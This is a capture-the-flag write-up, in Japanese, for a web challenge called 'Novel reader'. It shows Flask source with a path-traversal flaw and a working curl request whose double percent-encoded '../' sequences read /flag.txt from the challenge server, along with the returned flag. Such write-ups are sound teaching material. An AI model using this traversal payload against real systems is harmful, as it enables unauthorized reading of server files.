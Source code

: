 # Novel reader:Web:42pts
We have many fun novels for ya...  
[Docker environment](novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)  
```
http://3.64.250.135:9000
```

# Solution
URLとソースが配布される。  
アクセスすると`Balance`を払って`Words Balance`を購入して、Novelを読むことのできるサービスのようだ。  
![site.png](site/site.png)  
試しに`Balance: 100`すべて払うと`Words Balance: 11`となり、10:1のレートのようだ。  
ソースを見ると以下であった。  
```python
from flask import *
from urllib.parse import unquote
import os

def readFile(path):
    f = open(path,'r')
    buf = f.read(0x1000)
    f.close()
    return buf

app = Flask(__name__,static_folder='./static')
app.secret_key = 'REDACTED'
indexFile = readFile('index.html')

@app.before_request
def init_session():
    if('credit' not in session):
        session['credit'] = 100
        session['words_balance'] = 1

@app.get('/')
def index():
    return indexFile

@app.get('/api/stats')
def getStats():
    return {'credit': session['credit'], 'words_balance': session['words_balance']}

@app.post('/api/charge')
def buyWord():
    nwords = request.args.get('nwords')
    if(nwords):
        nwords = int(nwords[:10])
        price = nwords * 10
        if(price <= session['credit']):
            session['credit'] -= price
            session['words_balance'] += nwords
            return {'success': True, 'msg': 'Added to your account!'}
        return {'success': False, 'msg': 'Not enough credit.'}, 402
    else:
        return {'success': False, 'msg': 'Missing parameteres.'}, 400

@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}

@app.get('/api/list-public-novels')
def listPublicNovels():
    return os.listdir('./public/')

@app.get('/api/list-private-novels')
def listPrivateNovels():
    return os.listdir('./private/')

if(__name__ == '__main__'):
    app.run('0.0.0.0',port=8000)
```
Dockerfileは以下のようでnginxが噛んでいる。  
```Dockerfile
FROM tiangolo/uwsgi-nginx-flask:python3.11

COPY ./flag.txt /flag.txt
COPY ./stuff /app
```
`/flag.txt`にフラグがあるようだ。  
ファイル読み込み箇所を再度注意して見ると以下であった。  
```python
~~~
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
~~~
```
`unquote`でパーセントエンコーディングを戻して、`public/`から始まっているか確認している。  
`public/`から始まるようにトラバーサルしてやればよい。  
`flag.txt`にはスペースが含まれていないので、`Words Balance`は意識しなくてよい。  
nginxが噛んでいるので、二重でパーセントエンコーディングが必要となる。  
```bash
$ curl -H 'Cookie: session=eyJjcmVkaXQiOjAsIndvcmRzX2JhbGFuY2UiOjExfQ.Za0PlQ._41fKxqQM14l0Afp4vvm1y5-bz4' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fflag.txt'
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```
flagが書かれていた。  

## MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}